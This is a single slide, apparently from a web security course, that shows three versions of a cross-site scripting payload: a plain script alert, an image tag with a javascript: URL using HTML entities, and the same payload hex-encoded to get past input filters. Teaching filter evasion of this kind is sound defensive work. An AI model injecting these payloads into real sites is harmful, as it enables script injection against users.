

# Evasion Example (2)
The following are version of the traditional attack:
<SCRIPT>alert("XSS")</SCRIPT>
HTML Entities
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
Hex Encoding
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>